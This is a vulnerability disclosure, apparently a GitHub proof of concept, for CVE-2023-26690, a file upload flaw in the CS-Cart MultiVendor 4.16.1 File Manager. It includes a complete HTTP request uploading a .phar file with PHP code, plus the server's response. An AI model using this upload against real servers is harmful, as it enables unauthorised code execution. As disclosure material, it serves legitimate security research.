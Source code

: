 # CVE-2023-26690 - File Upload vulnerability in File Manager of CS-Cart MultiVendor 4.16.1
This vulnerability allows an attacker to upload arbitrary files to the server by exploiting the “File Manager/Editor” functionality provided by the website. The vulnerability was identified as a result of the lack of proper validation and security controls on the uploaded files. Testing revealed that it was possible to upload files with malicious payloads, such as “.html”, “.phar”, and “.svg”, which could be used to deliver further attacks such as Remote Code Execution or Cross Site Scripting as presented below as Proof of Concept.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of “CS-Cart MultiVendor 4.16.1” with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
A "vendor" type user besides an admin has access to "File Manager" feature. Just go to Settings -> Files option.

<img src="cs-cart-fileupload-1.png">

<img src="cs-cart-fileupload-2.png">

The File Editor had minimal restrictions on file uploads, only prohibiting certain file types such as .php and a few others. However, potentially harmful file types like .phar, .html, and .svg were permitted.

#### Request:
```
POST /vendor.php?dispatch=elf_connector.manage&start_path=&security_hash=eec209847ff6336e0ee148fa1ecd56bf HTTP/1.1
Host: 172.16.85.150
Content-Length: 630
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAoh8runc5BFy8e3L
Accept: */*
Origin: http://172.16.85.150
Referer: http://172.16.85.150/vendor.php?dispatch=file_editor.manage
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: sid_customer_179e8=b9c1cfb15ede624455e417acd3bcd435-C; klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_admin_179e8=805b663fa14cb065af79dea778d78f24-A; sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A
Connection: close

------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="reqid"

1860bf828c32fc
------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="cmd"

upload
------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="target"

l2_cGFnZXM
------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="upload[]"; filename="test.phar"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="mtime[]"

1675238039
------WebKitFormBoundaryAoh8runc5BFy8e3L—
```

#### Response:
```
HTTP/1.1 200 OK
Date: Wed, 01 Feb 2023 07:54:18 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Frame-Options: SAMEORIGIN
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 07:54:18 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: frame-ancestors 'self';
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; path=/; HttpOnly; SameSite=lax
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 07:54:18 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 07:54:18 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Vary: Accept-Encoding
Content-Length: 429
Connection: close
Content-Type: text/html; charset=utf-8

{"added":[{"isowner":false,"ts":1675238058,"mime":"application\/octet-stream","read":1,"write":1,"size":"20","hash":"l2_cGFnZXMvdGVzdC5waGFy","name":"test.phar","phash":"l2_cGFnZXM","url":"http:\/\/172.16.85.150\/images\/companies\/1\/pages\/test.phar"}],"removed":[],"changed":[{"isowner":false,"ts":1675238058,"mime":"directory","read":1,"write":1,"size":0,"hash":"l2_cGFnZXM","name":"pages","phash":"l2_Lw","volumeid":"l2_"}]}
```

<img src="cs-cart-fileupload-3.png">

<img src="cs-cart-fileupload-4.png">

<img src="cs-cart-fileupload-5.png">


